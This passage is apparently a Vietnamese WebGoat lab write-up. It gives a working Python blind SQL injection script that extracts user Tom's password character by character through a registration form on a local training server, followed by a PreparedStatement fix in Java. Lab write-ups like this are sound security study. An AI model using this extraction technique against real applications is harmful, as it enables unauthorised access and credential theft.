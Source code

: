 ```python
from requests import post, put
import json  
URL = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"

letters = [chr(i) for i in range(97, 123)]

numbers = [str(i) for i in range(10)]

letters += numbers

password = ""

while True:
    for char in letters:
        headers = {  
            'Cookie': 'JSESSIONID=50WEjJp0KpMHh8QPjanNPieKQi_ZGTnt66PK1FQP'
        }  
        payload = f"tom' AND password LIKE '{password + char}%' --"
        data = {
            "username_reg": payload,
            "email_reg": "a@a.com",
            "password_reg": "a",
            "confirm_password_reg": "a"
        }
        response = put(URL, data=data, headers=headers)
        if "already exists" in response.text:
            password += char
            print(password)
            break
    
```

- Chạy chương trình trên, và nó sẽ dò ra được password của tài khoản Tom

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%202.png)

- Password của Tom là `thisisasecretfortomonly` , đăng nhập với password này thì thành công.

### Cách khắc phục

- Sử dụng PreparedStatement thay vì Statement để thực hiện các truy vấn SQL với các tham số đầu vào được định dạng an toàn.

```java
  try (Connection connection = dataSource.getConnection()) {
        String checkUserQuery = "select userid from sql_challenge_users where userid = ?";
        PreparedStatement statement = connection.prepareStatement(checkUserQuery);
        statement.setString(1, username_reg);
        ResultSet resultSet = statement.executeQuery();
        if (resultSet.next()) {
          if (username_reg.contains("tom'")) {
            attackResult = success(this).feedback("user.exists").build();
          } else {
            attackResult = failed(this).feedback("user.exists").feedbackArgs(username_reg).build();
          }
        } else {
          PreparedStatement preparedStatement =
              connection.prepareStatement("INSERT INTO sql_challenge_users VALUES (?, ?, ?)");
          preparedStatement.setString(1, username_reg);
          preparedStatement.setString(2, email_reg);
          preparedStatement.setString(3, password_reg);
          preparedStatement.execute();
          attackResult = success(this).feedback("user.created").feedbackArgs(username_reg).build();
        }
  } catch (SQLException e) {
```